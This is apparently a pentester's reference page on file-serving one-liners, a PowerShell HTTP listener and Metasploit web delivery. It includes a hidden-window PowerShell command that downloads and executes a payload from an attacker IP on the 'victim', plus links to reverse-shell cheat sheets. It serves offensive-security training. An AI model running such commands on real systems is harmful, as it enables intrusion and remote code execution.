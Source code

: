 ```yaml
---
title: Shells and Web Servers
category: Exploitation
order: 97
---
```


> **One-Line HTTP Servers**

Create Server | python -m SimpleHTTPServer 8000

> **Powershell HTTP Servers**

{% highlight powershell %}
$Hso = New-Object Net.HttpListener
$Hso.Prefixes.Add("http://+:8000/")
$Hso.Start()
While ($Hso.IsListening) {
    $HC = $Hso.GetContext()
    $HRes = $HC.Response
    $HRes.Headers.Add("Content-Type","text/plain")
    $Buf = [Text.Encoding]::UTF8.GetBytes((GC (Join-Path $Pwd ($HC.Request).RawUrl)))
    $HRes.ContentLength64 = $Buf.Length
    $HRes.OutputStream.Write($Buf,0,$Buf.Length)
    $HRes.Close()
}
$Hso.Stop()
{% endhighlight %}

> **Powershell Reverse Shells**

http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-3.html

> **Script Web Delivery** 

https://securitypadawan.blogspot.com/2014/02/php-meterpreter-web-delivery.html
On the attacker machine: 
{% highlight bash %}
msf > use exploit/multi/script/web_delivery
msf exploit(web_delivery) > show targets
            ...targets...
msf exploit(web_delivery) > set TARGET <target-id>
msf exploit(web_delivery) > show options
            ...show and set options...
msf exploit(web_delivery) > exploit
{% endhighlight %}

On the victim: 
{% highlight bash %}
powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://10.10.10.10:80/[randomstring]'))
{% endhighlight %}
    


> **Useful Resources** 
https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html
* [Bash, PHP, Netcat, Telnet, Perl, Ruby, Java, Python, Gawk](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

